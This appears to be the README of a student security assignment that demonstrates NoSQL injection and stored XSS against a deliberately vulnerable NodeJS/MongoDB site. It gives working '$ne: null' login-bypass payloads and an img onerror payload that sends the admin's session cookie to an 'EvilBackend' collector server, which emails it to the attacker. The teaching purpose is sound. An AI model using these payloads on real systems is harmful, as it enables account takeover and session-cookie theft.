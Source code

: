 # ISEC3004-Assignment

## Introduction<br>

This is a repository for ISEC3004 Assignment. The assignment focuses on demostrating XSS and NoSQL Injection attacks.<br>
<br>
#### index.html - Main page for the website<br>
#### Backend - Backend Server
This backend acts as a server for the website. It is written in NodeJS and ExpressJS. It uses MongoDB as the database.<br>
To run the backend server, navigate to the directory and run the following commands:<br>
<b>Make sure to replace the mongoose.connect the URL with your mongoDB URL by specifying MONGO_URL value in .env file.</b>
  
```console
npm install
nodemon index.js
```

#### EvilBackend - Backend Server for Blind XSS<br>
This backend acts as the server used by the bad actor to hunt for sesstion cookies. It is written in NodeJS and ExpressJS.<br>
To run the backend server, navigate to the directory and run the following commands:<be>
<b>Make sure to specify EMAIL_TOKEN, EMAIL_FROM, EMAIL_TO, EMAIL_PASSWORD values in .env file.</b>

```console 
npm install
nodemon index.js
```

***

#### NoSql - NoSQL Injection Attack<br>
1. A bad actor can use the following payload to login as a different user if the email is known.<br>

```console
"password": {"$ne": null}
```
<br>
2. If the email is unknown the following payload will log you in as the first user in the database (In most cases the admin) <br>

```console
"email": {"$ne": null}, "password": {"$ne": null}
```
<br>

In the above scenarios, {"$ne": null} means <b>not equal to null</b>.

#### XSS - XSS Attack <br>
When a user account is created with a XSS payload as the user such as: <br>

```console 
<img src="invalid-url" onerror="this.src='http://localhost:5001/hack?cookie='+document.cookie; this.removeAttribute('onerror');"></img>
```
<br>
The payload will be executed when the Administrator of the system loads the admin page. The invalid source url will cause an error and execute the XSS payload in onerror attribute. The payload will send the session cookie to the bad actor's server. The EvilBackend server will then display the session cookie on the page and send a Email to the bad actor as a notification.<br>
